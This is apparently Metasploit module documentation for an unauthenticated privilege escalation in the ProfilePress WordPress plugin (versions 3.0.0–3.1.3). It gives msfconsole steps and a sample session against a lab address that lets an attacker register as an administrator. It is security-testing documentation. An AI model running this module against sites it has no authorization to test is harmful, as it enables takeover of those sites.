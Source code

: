 ## Description
A vulnerability in the user registration component found in the ~/src/Classes/RegistrationAuth.php file of the ProfilePress WordPress plugin made it possible for users to register on sites as an administrator. This issue affects versions 3.0.0 - 3.1.3.

## Verification Steps
Confirm that functionality works:
1. Start `msfconsole`
2. use `auxiliary/admin/http/wp_profile_press_unauthenticated_privilege_escalation`
3. Set the `RHOSTS`
4. Set `TARGETURI`
5. Set `RPORT`
6. Run the exploit: `run`

## Scenarios
```
msf5 auxiliary(admin/http/wp_profile_press_unauthenticated_privilege_escalation) > use auxiliary/admin/http/wp_profile_press_unauthenticated_privilege_escalation
msf5 auxiliary(admin/http/wp_profile_press_unauthenticated_privilege_escalation) > set RHOSTS 192.168.1.15
RHOSTS => 192.168.1.15
msf5 auxiliary(admin/http/wp_profile_press_unauthenticated_privilege_escalation) > set RPORT 80
RPORT => 80
msf5 auxiliary(admin/http/wp_profile_press_unauthenticated_privilege_escalation) > set TARGETURI wordpress/
TARGETURI => wordpress/
msf5 auxiliary(admin/http/wp_profile_press_unauthenticated_privilege_escalation) > run
```
## Test environment
Windows 10 running WordPress 5.8.1, ProfilePress WordPress plugin 3.1.3

